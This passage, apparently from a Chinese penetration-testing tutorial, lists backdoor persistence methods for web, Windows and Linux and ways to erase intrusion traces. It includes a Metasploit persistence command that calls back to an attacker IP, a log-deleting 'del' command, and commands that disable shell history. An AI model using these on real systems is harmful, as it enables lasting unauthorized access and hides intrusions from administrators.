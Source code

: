 3： 404页面隐藏后门，或者在其他自带文件中插入后门代码

注：以上几种后门方法均能被D盾等工具检测到

#### 3.7.2 Windows系统

1：建立隐藏用户，在用户名后加 $

2：在开机启动目录下放置木马文件，只要目标机器重启，将回连我们的远控

3：MSF里的 persistence 模块，执行命令可以使目标机器每隔一定时间自动回连远控。但是容易被发现

```bash
#反弹时间间隔是5s 会自动连接192.168.27的4444端口，缺点是容易被杀毒软件查杀
run persistence -X -i 5 -p 8888 -r 192.168.10.27  
 
#然后它就在目标机新建了这个文件：C:\Windows\TEMP\CJzhFlNOWa.vbs ，并把该服务加入了注册表中，只要开机就会启动
  
```

4：在域环境下，想办法获得 krbtgt 用户的哈希，该用户的哈希可以进行票据传递攻击。而且一般该用户的密码不经常改变。

5：shift后门

6：远程桌面会话劫持

#### 3.7.3 Linux系统

- SSH后门
- crontab定时任务
- SSH公钥
- 创建SUID=0的用户

### 2.8 痕迹清除

当我们达到了目的之后，有时候只是为了黑入网站挂黑页，炫耀一下；或者在网站留下一个后门，作为肉鸡，没事的时候上去溜达溜达；亦或者挂入挖矿木马；但是大家千万不要干这些事，这些都是违法的！

我这里只是教大家在渗透进去之后如何清除我们留下的一部分痕迹，并不能完全清除，完全清除入侵痕迹是不可能的！主要是增加管理员发现入侵者的时间成本和人力成本。只要管理员想查，无论你怎么清除，还是能查到的。

最主要还是要以隐藏自身身份为主，最好的手段是在渗透前挂上代理，然后在渗透后痕迹清除。

#### 2.8.1 Windows系统

1：如果是windows系统，可用MSF中的 clearev 命令清除痕迹

2：如果3389远程登录过，需要清除mstsc痕迹

3：执行命令清除日志：

del %WINDR%* .log /a/s/q/f 4：如果是web应用，找到web日志文件，删除

相关文章：WINDOWS之入侵痕迹清理总结

#### 2.8.2 Linux系统

- 如果是Linux系统，在获取权限后，执行以下命令，不会记录输入过的命令

```shell
export HISTFILE=/dev/null export HISTSIZE=0 
```
